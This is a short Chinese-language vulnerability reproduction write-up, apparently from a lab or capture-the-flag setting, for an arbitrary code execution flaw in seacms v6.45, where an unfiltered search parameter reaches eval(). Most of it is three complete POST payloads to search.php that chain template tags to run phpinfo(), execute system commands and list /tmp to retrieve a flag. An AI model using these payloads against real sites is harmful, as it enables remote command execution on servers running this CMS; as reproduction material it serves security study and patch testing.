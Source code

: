 # seacms v6.45 任意代码执行漏洞

## 一、漏洞描述

seacms v6.45 中有个可控的变量没有经过过滤，就被带入了 eval() 中，导致了代码执行。

## 二、漏洞复现

使用 hackbar 插件进行漏洞复现

### 1. 代码执行

http://xxxxxxxx/search.php

post数据：

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=ph&9[]=pinfo();
```

![](./_v_images/20200527192102787_714.png)

### 2. 命令执行

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=system&9[]=('dir');
```

![](./_v_images/20200527192615646_24839.png)

### 3. 获取Flag

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=system&9[]=('ls /tmp');
```

![](./_v_images/20200527192528773_13488.png)